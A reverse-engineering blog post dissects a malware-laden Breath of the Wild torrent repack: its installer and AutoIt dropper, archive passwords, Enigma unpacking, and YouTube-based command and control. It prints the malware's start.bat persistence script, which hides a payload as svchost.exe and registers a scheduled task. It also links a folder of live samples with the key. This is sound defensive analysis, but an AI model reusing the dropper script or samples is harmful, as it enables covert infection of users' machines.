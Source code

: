 ```yaml
---
layout: post
tagline: "Using YouTube as C&C"
category: reversing
tags : [reversing, malware, torrent]
---
```

{% include JB/setup %}

Never trust a repack...

The torrent I looked at was: `The Legend of Zelda: Breath of the Wild CEMU 1.8.0b [Multi-Lang]` by HZolomon.

**TL;DR: It is definitely malware.** All the torrent by HZolomon appear to have been infected with malware equal/similar to this one.

\[[MEGA Folder with relevant files](https://mega.nz/folder/mxB3lKBD)\] **WARNING: THIS CONTAINS ACTIVE MALWARE** (in case you didn't read the title and like executing random files)... The key is `8NcPVw1TCm_dvZM9s2SU_g`.

## Tooling

I used [x64dbg](http://x64dbg.com), [DbgChild](https://github.com/David-Reguera-Garcia-Dreg/DbgChild), [TitanHide](https://github.com/mrexodia/TitanHide), [CFF Explorer](http://www.ntcore.com/exsuite.php), [Exe2Aut](http://domoticx.com/autoit3-decompiler-exe2aut) and [VirtualBox](https://www.virtualbox.org/wiki/Downloads).

You have to select the checkboxes in the DbgChild plugin to automatically attach x64dbg to any process started by the executable you're currently debugging:

![dbgchild](https://i.imgur.com/eRIW9sj.png)

From here on I'll just give a brief description of each analysis step.

## setup.exe

[VirusTotal](https://virustotal.com/en/file/06dd57013ab91100d4474ab4069ebb3a908ffc8776795127a3148203e2d4e1d8/analysis)

- With `innoextract` (`innounp` has a similar error):

```
Stream error while parsing setup headers!
 ├─ detected setup version: 5.4.2
 └─ error reason: basic_ios::clear
If you are sure the setup file is not corrupted, consider
filing a bug report at http://innoextract.constexpr.org/issues
Done with 1 error.
```

- Extracts `%temp%\is-[A-Z0-9]{5}.tmp\setup.tmp` (`is-K35T2.tmp` in MEGA folder)

- Probably this is: http://forum.ru-board.com/topic.cgi?forum=5&topic=34920&start=0&limit=1&m=1#1 and/or http://krinkels.org/resources/categories/innoultra.29/

## setup.tmp

[VirusTotal](https://virustotal.com/en/file/5e5a8f3b318f077ad371e460a651f2e0f53ad52a92afda395dcf39efc721d46f/analysis)

Command line (this is similar to what InnoSetup does from what I know):

```
"C:\Users\Admin\AppData\Local\Temp\is-RPR25.tmp\setup.tmp" /SL5="$230522,1892858,54272,F:\Users\Admin\Documents\Downloads\The Legend of Zelda - Breath of the Wild\setup.exe" 
```

- Extracts `%temp%\is-[A-Z0-9]{5}.tmp\ISDone.dll` and some other files (including `unarc.dll`).

- Put a DLL breakpoint on `unarc.dll` in x64dbg.

- Start the installation, which causes more stuff to be extracted to `%temp%\is-[A-Z0-9]{5}.tmp`.

All the extracted files are hidden. You can use `attrib -S -H` to unhide them (Windows explorer doesn't allow you to do uncheck the `Hidden` box for some readon).

- Break on `FreeArcExtract` (see my [earlier blog post](http://mrexodia.github.io/coding/2017/07/06/FreeArc-and-Dark-Souls-3) for more details). TL;DR it runs `unarc.exe` with the function arguments as command line arguments.

Some of the commands used in `FreeArcExtract`:

```
l -- setup-2.bin
x -o+ -pawdawdawd -wF:\BotW\ -dpF:\BotW\ -- setup-2.bin
```

- Find `cbArcExtract` at `ISDone.dll:$1A340` from the first parameter of `FreeArcExtract`, break on the `password?` action check:

![password check](https://i.imgur.com/DLRX6Zv.png)

Arc password: `awdawdawd`

The `unarc.dll` uses compression algorithm hooks from `facompress.dll` ([relevant code](https://github.com/svn2github/freearc/blob/298ae5fece821c4a187f782df034bbd9e029688f/Compression/CompressionLibrary.cpp#L461)) + hooks for CLS-compressors ([relevant code](https://github.com/svn2github/freearc/blob/298ae5fece821c4a187f782df034bbd9e029688f/Compression/CLS/C_CLS.cpp#L87), `CLS-MSC.dll`, `CLS-srep.dll`) so make sure to put those next to `unarc.exe` if you want to (safely) extract the files.

- After all the files are extracted it runs `DSETUP.exe`, which at first looked fine, but looking a second time the file is not signed by Microsoft and it has no version information or anything.

## DSETUP.exe

[VirusTotal](https://virustotal.com/en/file/bcd844ff63e5ea46446572ab85efd05bd8e4e4a92f58bf4afc4d37b6b54b2eb2/analysis)

This is an AutoIt executable (32 bit), it's basically the first layer of the dropper. With Exe2Aut I extracted the script (slightly deobfuscated by hand):

![dropper layer 1](https://i.imgur.com/sEXp9bf.jpeg)

It tries to identify your anti-virus and based on that drops `CLDe2bugLog.txt` in your temp directory with the `FileInstall` function. It then replaces the bytes `00000000001C0004` with `377ABCAF271C0004` (7z header) and extracts it with the following command:

```
CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt
```

The contents of `CRDebugLog.txt`, but the malware inside does pretty much the same thing. I (unfortunately) looked at the contents of `dxdllreg_x86`:

```
64.exe
SystemCheck.xml
start.bat
```

# start.bat

```
attrib -h -r -s /S /D %userprofile%\AppData\Roaming\Microsoft\Windows\\svchost.exe
copy /y "64.exe" "%userprofile%\AppData\Roaming\Microsoft\Windows\svchost.exe"
attrib +h +r +s /S /D %userprofile%\AppData\Roaming\Microsoft\Windows\\svchost.exe
schtasks.exe /Create /XML "SystemCheck.xml" /TN "System\SystemCheck"
del 64.exe /f
del SystemCheck.xml /f
del CRDebugLog.txt /f
del CLDebugLog.txt /f
del "%0"
```

This copies the file to `%userprofile%\AppData\Roaming\Microsoft\Windows\svchost.exe`, which made it clear that this is indeed a malicious file. It then goes on to create a scheduled task with `SystemCheck.xml`.

## SystemCheck.xml

![SystemCheck.xml](https://i.imgur.com/UTJMk2j.png)

This executes the newly-created `svchost.exe` with the `-WindowsCheck` command line every X amount of time (probably days, not really worth exploring in this case).

## 64.exe (svchost.exe)

[VirusTotal](https://virustotal.com/en/file/f53fa47763b9afdf9ef03c935c413e9c2969091142cd42584f33b0bef27362ca/analysis)

This file is packed with Enigma x64. [TitanHide](https://github.com/mrexodia/TitanHide) works fine for debugging Enigma (ScyllaHide has issues). The original entry point (OEP) is at `64.exe:$3059C` . It has stolen bytes, but they are easy to retrieve:

`48 83 EC 28 E8 BF B3 00 00 48 83 C4 28 E9 36 FE FF FF`

**EDIT**: I have been asked on [reddit](https://www.reddit.com/r/ReverseEngineering/comments/6mw3pk/analyzing_torrent_repack_malware/) to give more details about the "stolen bytes" mentioned here. Before I could answer user [izizizizizizi](https://www.reddit.com/user/izizizizizizi) gave a nice [explanation](https://www.reddit.com/r/ReverseEngineering/comments/6mw3pk/analyzing_torrent_repack_malware/dk67bmt/):

> "Stolen bytes" (is there any non-colloquial name for this I wonder) is a feature of many packers/protectors which prevents easy dumping. During the protection process, a part of the original executable code gets removed and stored in the protector stub. When it's about to be executed there's a redirection to the protector's code instead of the original function. The stub either writes original code in some dynamic buffer and executes it or an obfuscated version of the original function is executed.

To get them I created my own `Hello World`-style AutoIt executable and pasted the entry point.

After the 'unpacking' enigma, I extracted the `SCRIPT` resource and put it in a `Hello World` AutoIt executable (32 bit), I then used `Exe2Aut.exe` to get the AutoIt script source code (irrelevant parts omitted):

![stage2](https://i.imgur.com/IxdyRY4.jpeg)

The interesting part is the `bot()` function:

![stage2 C2](https://i.imgur.com/jK3GPat.png)

It uses a YouTube video (reported, but please report again) as a command and control mechanism. If the description contains one of the `_download`, `_run`, etc. command it will perform certain actions based on the data in the description (such as downloading a file or updating to a newer version).

It also appears to run some kind of crypto currency miner, although I couldn't find the `SystemCheck` executable:

![miner](https://i.imgur.com/mIIC1OW.png)

Well, that has been all for today. It has certainly been fun reversing malware for a change!

"Heb ik dat nou al gezouten?"